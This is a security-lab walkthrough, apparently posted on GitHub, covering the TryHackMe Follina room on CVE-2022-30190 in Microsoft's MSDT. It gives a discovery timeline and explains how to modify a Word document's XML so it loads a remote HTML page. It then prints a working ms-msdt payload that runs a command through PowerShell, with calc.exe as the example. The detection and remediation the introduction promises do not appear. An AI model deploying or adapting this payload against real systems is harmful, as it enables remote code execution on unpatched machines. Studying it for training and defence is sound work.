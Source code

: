 
# Fz3r0 Operations  [OffSec / Hacking]

![My Video](https://user-images.githubusercontent.com/94720207/165892585-b830998d-d7c5-43b4-a3ad-f71a07b9077e.gif)

## Follina MSDT [Try Hack Me]

_A walkthrough on the CVE-2022-30190, the MSDT service, exploitation of the service vulnerability, and consequent detection techniques and remediation processes_

---

##### Twitter  : [@fz3r0_OPs](https://twitter.com/Fz3r0_OPs) 
##### Github  : [Fz3r0](https://github.com/fz3r0) 

---

#### Keywords: `CVE-2022-30190` `Exploit` `Hacking` `THM` `Windows` `MSDT` `Microsoft Office` `MSDT-Follina`

---

### Introduction

Microsoft explains that "a remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights"

### Learning Objectives:

In this room, we will explore what the Microsoft Support Diagnostic Tool is and the discovered vulnerability that it has. In the process, we will be able to experience exploiting this vulnerability and consequently learn some techniques to detect and mitigate its exploitation in our own environments

---

### CVE-2022-30190

The MSDT exploit is not something new - in fact, a bachelor’s thesis has been published August of 2020 regarding techniques on how to use MSDT for code execution. Almost two years after that initial publication, pieces of evidence of MSDT exploitation as well as code execution via Office URIs has triggered several independent researchers to file separate reports to MSRC, the latter of which has been patched (specifically in Microsoft Teams) whereas the former remained vulnerable

It’s not until the discovery of nao_sec, which has been made public in twitter, that attacks using this particular vector is actively being made in the wild. This is consequently picked up by Kevin Beaumont who publicly identified it as a zero day that Microsoft EDR products are failing to detect, and then later classified by Microsoft as a zero day with the vulnerability name CVE-2022-30190

#### Summarized timeline of its discovery:

- August 1st 2020  — A bachelor thesis is published detailing how to use MSDT to execute code
- March 10th 2021  — researchers report to Microsoft how to use Microsoft Office URIs to execute code using Microsoft Teams as an example. Microsoft fail to issue a CVE or inform customers, but stealth patched it in Microsoft Teams in August 2021. They did not patch MSDT in Windows or the vector in Microsoft Office (Link)
- April 12th 2022  — first report to Microsoft MSRC of exploitation in wild via MSDT, by leader of Shadowchasing1, an APT hunting group. This document is an in the wild, real world exploit targeting Russia, themed as a Russian job interview

![image](https://user-images.githubusercontent.com/94720207/180611650-2bc82256-8dfe-48e0-986c-351cec4e385f.png)

- April 21st 2022  — Microsoft MSRC closed the ticket saying not a security related issue (for the record, msdt executing with macros disabled is an issue)

![image](https://user-images.githubusercontent.com/94720207/180611661-42ecc7e0-6a30-4a05-8eb4-e8840ae69857.png)

- May 27th 2022  — Security vendor Nao tweet a document uploaded from Belarus, which is also an in the wild attack.
- May 29th 2022  — Kevin Beaumont identified this was a zero day publicly as it still works against Office 365 Semi Annual channel, and ‘on prem’ Office versions and EDR products are failing to detect
- May 31st 2022  — Microsoft classify this a zero day in Microsoft Defender Vulnerability Management

![image](https://user-images.githubusercontent.com/94720207/180611678-c31aab00-bb08-4803-85bd-2fc2cfb07d20.png)

- June 14th 2022  — a fix for this vulnerability, CVE-2022–30190, is available in June 2022’s Patch Tuesday

---

### The MSDT Service

Microsoft states that "the Microsoft Support Diagnostic Tool (MSDT) collects information to send to Microsoft Support. They will then analyze this information and use it to determine the resolution to any problems that you may be experiencing on your computer"

With that in mind, it’s essentially a way for Microsoft Support to immediately see what’s wrong as they’re getting all the information they need straight from the source

Think of it like this - you’re having car problems and you don’t know about cars at all. You call your trusty car mechanic, but instead of him asking you to check different parts of the car while he tries to deduce what’s wrong with it remotely, he just gives you a **passkey**, instructs you how to use it and the car will magically produce a report that you can then send to the mechanic. Quick, easy, and efficient.

---

### Exploiting the Follina Windows Vulnerability

Before we do any exploitation in the machine, let’s first try and make sense of the baseline processes of the machine. It is in having a sense of normalcy that we’d be able to spot minute changes later on that may consequently reveal malicious activity by a threat actor in our environment.

The process explorer from sysinternals has already been downloaded and pinned in the taskbar for easier access. Proceed to open it and scan through the processes currently running in the machine. Keep it open as we go through the activities later on so you'd be able to immediately see how an exploited follina-msdt vulnerability would look like as compared to the "baseline" - the processes that we're seeing while the machine is immaculate.

### Exploit Explanation

Let’s start with a disclaimer: for our purposes, we’ll be loading our payload via a word document, particularly in the .docx format - this is the original exploit that has been discovered in the wild. However, this vulnerability has been proved to work in a number of other office products, and the student is obliged to maximize learning by trying them out separately.

Two important aspects of this vulnerability are: 1) specific docx files contain OLE (originally abbreviates to Object Linking and Embedding) Object references, and sometimes, they take the form of HTML files hosted elsewhere, and 2) MS-MSDT allows for code execution.

Combining the above two aspects together, an MS-MSDT HTML scheme can be used to execute PowerShell code, and that a docx file can be used to load it via word’s external reference capability.

More specifically, drilling into the docx structure, the word/_rels/document.xml.rels file has an XML tag `<Relationship>` with an attribute `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"` that describes an external oleObject reference. In order to exploit this docx feature, we can edit the contents of this tag to point instead to the payload that we're hosting by changing the `Target` value into http://<external_payload_server.com>/<payload.html> and the `TargetMode` value into "External".

In the word/document.xml file, there's an XML tag that starts with `<o:OLEObject...>` wherein we should change the Type value to `"Link"` and then add the Key-Value pair attribute `UpdateMode="OnCall"`.

The only thing left to do now is to host the payload that the word file will be connecting to, and receiving instructions from upon opening of the file. This is done by creating an html file with a structure similar to this:

```html
<!doctype html>

<html lang="en">

<body>

<script>

//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times

  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";

</script>

</body>

</html>
```

In the above contents of the html file, you'd notice the `ms-msdt:/id PCWDiagnostic /skip force /param` command, along with the command switches you can use to set the command you want to execute in the target machine. You can then mix and match the payload according to your purposes.

As such, we now have a way to achieve remote code execution without touching any macros, and as we'll see later, without even opening the malicious document.

---

### References

- https://tryhackme.com/room/follinamsdt
- https://msrc-blog.microsoft.com/
- https://positive.security/blog/ms-officecmd-rce
- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190
- https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e
- https://benjamin-altpeter.de/doc/thesis-electron.pdf
- https://docs.microsoft.com/en-us/troubleshoot/sql/general/answers-questions-msdt
- https://social.technet.microsoft.com/wiki/contents/articles/30458.windows-10-ctp-how-to-run-microsoft-support-diagnostic-tool.aspx
- 



---

> ![hecho en mexico 5](https://user-images.githubusercontent.com/94720207/166068790-fa1f243d-2db9-4810-a6e4-eb3c4ad23700.png)
>
> _- Hecho en México - by [Fz3r0 💀](https://github.com/Fz3r0/)_ 
>
> _"In the mist of the night you could see me come, where shadows move and Demons lie..."_ 
